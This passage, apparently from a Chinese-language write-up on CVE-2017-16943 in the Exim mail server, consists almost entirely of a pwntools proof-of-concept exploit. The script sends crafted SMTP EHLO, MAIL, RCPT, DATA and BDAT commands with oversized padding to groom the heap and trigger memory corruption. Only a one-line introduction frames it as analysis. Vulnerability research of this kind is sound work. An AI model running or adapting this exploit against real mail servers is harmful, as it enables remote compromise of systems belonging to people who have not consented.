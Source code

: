 
大概流程如下
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513299429816blx4y8vg.png?imageslim)
接下来，分析一下 `poc`.

```
# CVE-2017-16943 PoC by meh at DEVCORE
# pip install pwntools
from pwn import *

context.log_level = 'debug'

r = remote('localhost', 25)

r.recvline()
r.sendline("EHLO test")
r.recvuntil("250 HELP")
r.sendline("MAIL FROM:<>")
r.recvline()
r.sendline("RCPT TO:<meh@some.domain>")
r.recvline()


pause()

r.sendline('a'*0x1280+'\x7f')

log.info("new heap on top chunk....")
pause()


r.recvuntil('command')
r.sendline('DATA')
r.recvuntil('itself\r\n')
r.sendline('b'*0x4000+':\r\n')
log.info("use DATA to create unsorted bin, next want to let next->txt ----> block_base")
pause()


r.sendline('.\r\n')
r.sendline('.\r\n')
r.recvline()
r.sendline("MAIL FROM:<>")
r.recvline()
r.sendline("RCPT TO:<meh@some.domain>")
r.recvline()
r.sendline('a'*0x3480+'\x7f')

log.info("new heap on top chunk....  again")
pause()


r.recvuntil('command')
r.sendline('BDAT 1')
r.sendline(':BDAT \x7f')

log.info("make hole")
pause()


s = 'a'*0x1c1e + p64(0x41414141)*(0x1e00/8)

r.send(s+ ':\r\n')
r.send('\n')
```